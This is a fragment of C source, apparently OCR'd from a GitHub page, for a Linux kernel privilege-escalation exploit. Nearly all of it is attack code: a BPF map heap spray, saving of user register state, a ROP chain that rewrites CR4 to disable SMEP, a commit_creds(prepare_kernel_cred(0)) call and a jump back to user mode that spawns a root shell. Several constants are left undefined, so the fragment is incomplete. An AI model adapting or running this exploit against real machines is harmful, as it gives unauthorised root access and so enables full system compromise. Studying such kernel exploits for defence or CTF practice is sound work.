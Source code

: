 ```c
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

uint64_t value[7];
union bpf_attr *attr;
union bpf_attr *attr2;
unsigned int spray_map_fd[15];



 __attribute__((constructor)) static void Init ( void )
{
    attr = malloc(0x100);
    attr2 = malloc(0x100);
}

size_t user_cs, user_ss, user_rflags, user_sp;  //保存用户态寄存器状态
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
}


void kernel_heap_spray()
{
    int i=0;
    for(i;i<N;i++)
    {
        spray_map_fd[i] = syscall(__NR_bpf,BPF_MAP_CREATE,attr,0x30);
    }
    return;
}
void ret2usr()
{
    commit_creds(prepare_kernel_cred(0));
}
void shell()
{
    printf("[*] welcome to root :-)\n");
    system("/bin/sh");
}

uint64_t rop[12] = {
    POP_RDI_RET,        //0
    EVIL_CR4,           //1
    NATIVE_WRITE_CR4,   //2
    (size_t)ret2usr,            //3
    SWAPGS,             //4
    0,                  //5
    IRETQ,             //6
    (size_t)shell,      //7
    // user_cs,            //8
    // user_rflags,        //9
    // user_sp,            //10
    // user_ss             //11
    
};
```